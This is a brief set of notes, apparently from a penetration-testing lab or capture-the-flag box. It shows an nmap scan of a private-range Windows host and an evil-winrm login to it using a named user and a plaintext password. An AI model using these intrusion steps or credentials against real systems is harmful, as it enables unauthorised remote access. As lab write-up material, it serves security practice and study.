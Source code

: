 # nmap Scan
```bash
nmap -Pn 172.16.179.13
	PORT    STATE SERVICE
	135/tcp open  msrpc
	139/tcp open  netbios-ssn
	445/tcp open  microsoft-ds
```

# Foothold
```bash
evil-winrm -i 172.16.179.13 -u leon -p "rabbit:)"
```